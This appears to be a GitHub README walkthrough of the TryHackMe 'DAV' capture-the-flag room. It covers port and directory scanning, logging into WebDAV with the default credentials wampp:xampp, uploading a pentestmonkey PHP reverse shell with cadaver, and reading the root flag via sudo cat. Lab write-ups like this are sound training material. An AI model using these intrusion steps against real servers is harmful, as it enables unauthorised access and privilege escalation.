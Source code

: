 # DAV THM CTF Walkthrough

Solving DAV TryHackMe Capture The Flag [DAV TryHackMe Room](https://tryhackme.com/r/room/bsidesgtdav)

## First Step: Reconnaissance

```sh
nmap -sV -sC -Pn -A 10.10.210.35
```
![Nmap Result](Img)

Here we see only port 80 (http) is open, running Apache httpd 2.4.18 on Ubuntu.

Next step is to visit the webpage where we see the default Apache page, nothing really interesting yet.
![Apache Default Page](Img)

## Directory Brute-Forcing

Using `ffuf` (gobuster alternative):
```sh
ffuf -u http://10.10.210.35/FUZZ -e .php,.txt -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-small-words.txt
```

We found `/webdav`, which is interesting. Using BurpSuite or Hydra is not required for this login. A quick Google search reveals that WebDAV stands for "Web-based Distributed Authoring and Versioning," which means it can be exploited. Default credentials for WebDAV in this CTF Room are used: `wampp:xampp`.

Successful login.
![WebDAV Login](Img)

We get `password.dav` which contains a hash that I couldn't crack.

## Exploiting WebDAV

Instead, I searched for other vulnerabilities and found that we can use `cadaver` to upload a reverse shell PHP file.

```sh
cadaver http://10.10.210.35:80/webdav/
put reverseShell.php
```
![Upload with Cadaver](Img)

Get the reverse shell PHP from [pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php). Just modify your attacker IP and port.

Open netcat listener.
![Netcat Listener](Img)

Go back to [WebDAV](http://10.10.210.35/webdav/) and run the PHP file we just uploaded.
![Run PHP File](Img)

We got the reverse shell.

## Converting to TTY Shell

(Optional but recommended)
```sh
python3 -c 'import pty;pty.spawn("/bin/bash")'
```
![TTY Shell](Img)

## Finding Flags

To find `user.txt`, use:
```sh
find / -type f -name user.txt 2>>/dev/null
```
![Find user.txt](Img)

Then use `cat` to read the flag.

To check for root permissions:
```sh
sudo -l
```
![sudo -l](Img)

We can run the `cat` command as sudo:
```sh
sudo cat /root/root.txt
```
![Root Flag](Img)

Congrats! We have solved DAV THM CTF! Follow My GitHub for more.
```

You can copy and paste this content into your README.md file.
